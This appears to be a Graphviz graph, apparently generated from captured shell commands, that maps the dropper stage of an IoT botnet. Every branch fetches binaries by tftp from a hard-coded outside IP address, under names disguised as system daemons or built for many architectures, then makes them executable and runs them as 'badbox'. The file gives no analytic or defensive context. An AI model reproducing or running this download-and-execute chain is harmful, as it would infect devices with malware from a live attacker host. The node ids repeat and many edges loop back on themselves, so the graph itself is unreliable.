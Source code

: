 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 14 [label="||,"];
14 [label="tftp 31.207.44.139 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 34 [label="||,"];
34 [label="tftp 31.207.44.139 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 54 [label="||,"];
54 [label="tftp 31.207.44.139 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 74 [label="||,"];
74 [label="tftp 31.207.44.139 -c get bash "];
74 -> 76 [label=";,"];
76 [label="cat bash badbox "];
76 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 94 [label="||,"];
94 [label="tftp 31.207.44.139 -c get tftp "];
94 -> 96 [label=";,"];
96 [label="cat tftp badbox "];
96 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 114 [label="||,"];
114 [label="tftp 31.207.44.139 -c get wget "];
114 -> 116 [label=";,"];
116 [label="cat wget badbox "];
116 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 134 [label="||,"];
134 [label="tftp 31.207.44.139 -c get cron "];
134 -> 136 [label=";,"];
136 [label="cat cron badbox "];
136 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 154 [label="||,"];
154 [label="tftp 31.207.44.139 -c get ftp "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 174 [label="||,"];
174 [label="tftp 31.207.44.139 -c get pftp "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 194 [label="||,"];
194 [label="tftp 31.207.44.139 -c get sh "];
194 -> 196 [label=";,"];
196 [label="cat sh badbox "];
196 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 214 [label="||,"];
214 [label="tftp 31.207.44.139 -c get   "];
214 -> 216 [label=";,"];
216 [label="cat   badbox "];
216 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 234 [label="||,"];
234 [label="tftp 31.207.44.139 -c get apache2 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 254 [label="||,"];
254 [label="tftp 31.207.44.139 -c get telnetd "];
254 -> 256 [label=";,"];
256 [label="cat telnetd badbox "];
256 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 264 [label=";,"];
264 [label="cp /bin/busybox -O /tmp/badbox "];
264 -> 264
266 [label="tftp 31.207.44.139 -c get jackmymipsel "];
266 -> 266
268 [label="cat jackmymipsel badbox "];
268 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 276 [label=";,"];
276 [label="tftp 31.207.44.139 -c get jackmymips "];
276 -> 276
278 [label="cat jackmymips badbox "];
278 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 286 [label=";,"];
286 [label="tftp 31.207.44.139 -c get jackmysh4 "];
286 -> 286
288 [label="cat jackmysh4 badbox "];
288 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 296 [label=";,"];
296 [label="tftp 31.207.44.139 -c get jackmyx86 "];
296 -> 296
298 [label="cat jackmyx86 badbox "];
298 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 306 [label=";,"];
306 [label="tftp 31.207.44.139 -c get jackmyarmv6 "];
306 -> 306
308 [label="cat jackmyarmv6 badbox "];
308 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 316 [label=";,"];
316 [label="tftp 31.207.44.139 -c get jackmyi686 "];
316 -> 316
318 [label="cat jackmyi686 badbox "];
318 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 326 [label=";,"];
326 [label="tftp 31.207.44.139 -c get jackmypowerpc "];
326 -> 326
328 [label="cat jackmypowerpc badbox "];
328 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 336 [label=";,"];
336 [label="tftp 31.207.44.139 -c get jackmyi586 "];
336 -> 336
338 [label="cat jackmyi586 badbox "];
338 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 346 [label=";,"];
346 [label="tftp 31.207.44.139 -c get jackmym86k "];
346 -> 346
348 [label="cat jackmym86k badbox "];
348 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
363 [label="./badbox "];
363 -> 356 [label=";,"];
356 [label="tftp 31.207.44.139 -c get jackmysparc "];
356 -> 356
358 [label="cat jackmysparc badbox "];
358 -> 360 [label=";,"];
360 [label="badbox "];
360 -> 360
362 [label="chmod +x * "];
362 -> 363 [label=";,"];
}
